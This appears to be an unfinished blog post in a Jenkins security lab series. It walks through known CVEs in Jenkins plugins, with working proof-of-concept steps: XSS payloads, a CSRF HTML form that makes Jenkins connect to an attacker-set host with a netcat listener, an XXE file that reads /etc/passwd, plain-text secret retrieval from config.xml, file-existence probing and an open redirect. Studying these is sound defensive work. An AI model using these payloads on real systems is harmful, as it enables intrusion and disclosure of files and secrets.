 ```yaml
---
layout: post
title: Jenkins - Vulnerabilities analysis part 4
tags: [Jenkins, Security, CI, CD]
description: "Jenkins - Vulnerabilities analysis part 4"
---
```


This is still in redaction. I'll add more content when I have found plugins vulnerable and can reproduce the vulnerability. The exploit part will be more verbose, for now that will do :)

The docker image, which will be the lab, with all the plugins already installed, will be available soon.

Search for vulnerable plugins :
- [https://www.jenkins.io/security/advisories/](https://www.jenkins.io/security/advisories/)


## Missing permission

* * *

## XSS
### Stored XSS vulnerability in Dashboard View Plugin
- CVE-2022-27197
	- Dashboard View Plugin 2.18
	- [https://plugins.jenkins.io/dashboard-view/](https://plugins.jenkins.io/dashboard-view/)
	- Requires Jenkins 2.277.1

#### Exploit
- New view - name it - select dashboard
- add a Portlets at the top of the page
- Iframe source url --> javascript:alert("Liodeus")

### Reflected XSS vulnerability in Wall Display Master Project Plugin
- CVE-2019-10376 
	-  Wall Display Master Project 0.6.34
	- [https://plugins.jenkins.io/jenkinswalldisplay/](https://plugins.jenkins.io/jenkinswalldisplay/) 
	- Requires Jenkins 1.580

#### Exploit
- click Wall Display
- `customTheme=</style><script>alert("Liodeus")</script>`

* * *

## CSRF
### CSRF vulnerability in Publish Over SSH Plugin
- CVE-2022-23111 
	- Publish Over SSH Plugin 1.22
	- https://plugins.jenkins.io/publish-over-ssh/
	- Requires Jenkins 2.263.1

#### Exploit
- sudo netcat -lvnp 22
- host this html on a webpage (change the IP by yours)

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://localhost:8080/descriptorByName/jenkins.plugins.publish_over_ssh.BapSshHostConfiguration/testConnection">
      <input type="hidden" name="name" value="test" />
      <input type="hidden" name="hostname" value="192&#46;168&#46;1&#46;117" />
      <input type="hidden" name="username" value="test" />
      <input type="hidden" name="port" value="22" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```
- Go to the webpage, click on the button Submit request
- If you already are connected to Jenkins, you should see a connection on your listener
- If you are not connected, Jenkins ask you to connect, then the request get executed and you should see a connection on your listener

* * *

## XXE
### XXE vulnerability in Performance Plugin 
- CVE-2021-21701
	- pom2config plugin 1.2
	- [https://plugins.jenkins.io/pom2config/](https://plugins.jenkins.io/pom2config/)
	- Requires Jenkins 1.509.1

#### Exploit
- Create a new freestyle project
- Go on it - click Pom2Config
- Craft a .xml with exploit

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
<!ENTITY xxe SYSTEM "/etc/passwd" >]>
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/maven-v4_0_0.xsd">
  <description>&xxe;</description>
</project>
```

* * *

## Secret stored in plain text
### Client Secret stored in plain text by GitLab Authentication Plugin
- CVE-2022-27206
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- Client ID --> ThisIsASecretID
- Client Secret --> ThisIsASecretPASSWORD
- docker ps - get docker:dind name
- docker exec -it pensive_shannon /bin/bash
- cd /var/jenkins_home
- cat config.xml
- Secret in plain text

* * *

## Path traversal
### Path traversal vulnerability in Publish Over SSH Plugin
- CVE-2022-23113
	- Publish Over SSH Plugin 1.22
	- https://plugins.jenkins.io/publish-over-ssh/
	- Requires Jenkins 2.263.1

#### Exploit
- Manage Jenkins - Configure System - Go to "Publish over SSH"
- In the "Path to key" box, enter a file to check for existance
- If the file doesn't exist on the system : No such file : 'fileName'
- If the file exist : No error

* * *

## Agent-to-controller security bypass

* * *

## Arbitrary file read


## Denial of service

* * *

## Incorrect permission

* * *

## Bonus
### Open redirect vulnerability in GitLab Authentication Plugin 
- CVE-2022-25196
	- GitLab Authentication Plugin 1.13
	- [https://plugins.jenkins.io/gitlab-oauth/](https://plugins.jenkins.io/gitlab-oauth/)
	- Requires Jenkins 2.249.1

#### Exploit
- Dashboard - Configure Global Security - Security Realm - GitLab Authentication Plugin
- GitLab Web URI --> URL
- Save
- Go to localhost:8080
- You are redirect to URL

